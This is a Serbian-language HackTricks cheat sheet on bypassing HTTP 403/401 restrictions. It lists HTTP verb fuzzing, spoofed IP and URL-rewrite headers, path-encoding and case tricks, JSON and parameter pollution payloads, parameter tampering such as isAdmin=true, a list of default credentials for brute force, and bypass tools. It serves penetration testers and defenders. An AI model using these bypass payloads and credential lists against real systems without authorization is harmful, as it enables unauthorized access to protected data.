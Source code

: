 # 403 & 401 Bypasses

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Odmah dostupna postavka za procenu ranjivosti i penetraciono testiranje**. Izvršite potpuni pentest sa bilo kog mesta sa 20+ alata i funkcija koje idu od rekognicije do izveštavanja. Ne zamenjujemo pentestere - razvijamo prilagođene alate, module za detekciju i eksploataciju kako bismo im vratili malo vremena da dublje istraže, otvore shell-ove i zabave se.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## HTTP Verbs/Methods Fuzzing

Pokušajte koristiti **različite glagole** za pristup datoteci: `GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK`

* Proverite zaglavlja odgovora, možda se može dobiti neka informacija. Na primer, **200 odgovor** na **HEAD** sa `Content-Length: 55` znači da **HEAD glagol može pristupiti informacijama**. Ali još uvek morate pronaći način da exfiltrirate te informacije.
* Korišćenje HTTP zaglavlja kao što je `X-HTTP-Method-Override: PUT` može prepisati korišćeni glagol.
* Koristite **`TRACE`** glagol i ako imate sreće možda u odgovoru možete videti i **zaglavlja koja su dodali međuproksiji** koja bi mogla biti korisna.

## HTTP Headers Fuzzing

* **Promenite Host zaglavlje** na neku proizvoljnu vrednost ([to je ovde uspelo](https://medium.com/@sechunter/exploiting-admin-panel-like-a-boss-fc2dd2499d31))
* Pokušajte [**koristiti druge User Agents**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/User-Agents/UserAgents.fuzz.txt) za pristup resursu.
*   **Fuzz HTTP zaglavlja**: Pokušajte koristiti HTTP Proxy **zaglavlja**, HTTP autentifikaciju Basic i NTLM brute-force (samo sa nekoliko kombinacija) i druge tehnike. Da bih sve ovo uradio, napravio sam alat [**fuzzhttpbypass**](https://github.com/carlospolop/fuzzhttpbypass).

* `X-Originating-IP: 127.0.0.1`
* `X-Forwarded-For: 127.0.0.1`
* `X-Forwarded: 127.0.0.1`
* `Forwarded-For: 127.0.0.1`
* `X-Remote-IP: 127.0.0.1`
* `X-Remote-Addr: 127.0.0.1`
* `X-ProxyUser-Ip: 127.0.0.1`
* `X-Original-URL: 127.0.0.1`
* `Client-IP: 127.0.0.1`
* `True-Client-IP: 127.0.0.1`
* `Cluster-Client-IP: 127.0.0.1`
* `X-ProxyUser-Ip: 127.0.0.1`
* `Host: localhost`

Ako je **putanja zaštićena** možete pokušati da zaobiđete zaštitu putanje koristeći ova druga zaglavlja:

* `X-Original-URL: /admin/console`
* `X-Rewrite-URL: /admin/console`
* Ako je stranica **iza proksija**, možda je proksi taj koji vam sprečava da pristupite privatnim informacijama. Pokušajte da zloupotrebite [**HTTP Request Smuggling**](../../pentesting-web/http-request-smuggling/) **ili** [**hop-by-hop zaglavlja**](../../pentesting-web/abusing-hop-by-hop-headers.md)**.**
* Fuzz [**posebna HTTP zaglavlja**](special-http-headers.md) tražeći različite odgovore.
* **Fuzz posebna HTTP zaglavlja** dok fuzzujete **HTTP metode**.
* **Uklonite Host zaglavlje** i možda ćete moći da zaobiđete zaštitu.

## Path **Fuzzing**

Ako je _/path_ blokiran:

* Pokušajte koristiti _**/**_**%2e/path \_(ako je pristup blokiran od strane proksija, ovo bi moglo zaobići zaštitu). Pokušajte takođe**\_\*\* /%252e\*\*/path (dupla URL enkodiranje)
* Pokušajte **Unicode zaobilaženje**: _/**%ef%bc%8f**path_ (URL enkodirani karakteri su poput "/") tako da kada se ponovo enkodira biće _//path_ i možda ste već zaobišli proveru imena _/path_
* **Druga zaobilaženja putanje**:
* site.com/secret –> HTTP 403 Forbidden
* site.com/SECRET –> HTTP 200 OK
* site.com/secret/ –> HTTP 200 OK
* site.com/secret/. –> HTTP 200 OK
* site.com//secret// –> HTTP 200 OK
* site.com/./secret/.. –> HTTP 200 OK
* site.com/;/secret –> HTTP 200 OK
* site.com/.;/secret –> HTTP 200 OK
* site.com//;//secret –> HTTP 200 OK
* site.com/secret.json –> HTTP 200 OK (ruby)
* Koristite svih [**ovih listu**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt) u sledećim situacijama:
* /FUZZsecret
* /FUZZ/secret
* /secretFUZZ
* **Druga API zaobilaženja:**
* /v3/users\_data/1234 --> 403 Forbidden
* /v1/users\_data/1234 --> 200 OK
* {“id”:111} --> 401 Unauthorized
* {“id”:\[111]} --> 200 OK
* {“id”:111} --> 401 Unauthorized
* {“id”:{“id”:111\}} --> 200 OK
* {"user\_id":"\<legit\_id>","user\_id":"\<victims\_id>"} (JSON Parameter Pollution)
* user\_id=ATTACKER\_ID\&user\_id=VICTIM\_ID (Parameter Pollution)

## **Manipulacija parametrom**

* Promenite **vrednost parametra**: Od **`id=123` --> `id=124`**
* Dodajte dodatne parametre u URL: `?`**`id=124` —-> `id=124&isAdmin=true`**
* Uklonite parametre
* Promenite redosled parametara
* Koristite posebne karaktere.
* Izvršite testiranje granica u parametrima — pružite vrednosti poput _-234_ ili _0_ ili _99999999_ (samo neki primeri).

## **Verzija protokola**

Ako koristite HTTP/1.1 **pokušajte koristiti 1.0** ili čak testirajte da li **podržava 2.0**.

## **Druga zaobilaženja**

* Dobijte **IP** ili **CNAME** domena i pokušajte **kontaktirati ga direktno**.
* Pokušajte da **opterećujete server** slanjem uobičajenih GET zahteva ([To je uspelo ovom tipu sa Facebook-om](https://medium.com/@amineaboud/story-of-a-weird-vulnerability-i-found-on-facebook-fc0875eb5125)).
* **Promenite protokol**: sa http na https, ili za https na http
* Idite na [**https://archive.org/web/**](https://archive.org/web/) i proverite da li je u prošlosti ta datoteka bila **globalno dostupna**.

## **Brute Force**

* **Pogodite lozinku**: Testirajte sledeće uobičajene akreditive. Da li znate nešto o žrtvi? Ili ime CTF izazova?
* [**Brute force**](../../generic-methodologies-and-resources/brute-force.md#http-brute)**:** Pokušajte osnovnu, digest i NTLM autentifikaciju.

{% code title="Common creds" %}
```
admin    admin
admin    password
admin    1234
admin    admin1234
admin    123456
root     toor
test     test
guest    guest
```
{% endcode %}

## Automatski alati

* [https://github.com/lobuhi/byp4xx](https://github.com/lobuhi/byp4xx)
* [https://github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)
* [https://github.com/gotr00t0day/forbiddenpass](https://github.com/gotr00t0day/forbiddenpass)
* [Burp Extension - 403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)
* [Forbidden Buster](https://github.com/Sn1r/Forbidden-Buster)
* [NoMoreForbidden](https://github.com/akinerk/NoMoreForbidden)

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Odmah dostupna postavka za procenu ranjivosti i pentesting**. Pokrenite potpuni pentest sa bilo kog mesta sa 20+ alata i funkcija koje idu od recon do izveštavanja. Ne zamenjujemo pentestere - razvijamo prilagođene alate, module za detekciju i eksploataciju kako bismo im vratili malo vremena da dublje istraže, otvore shell-ove i zabave se.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
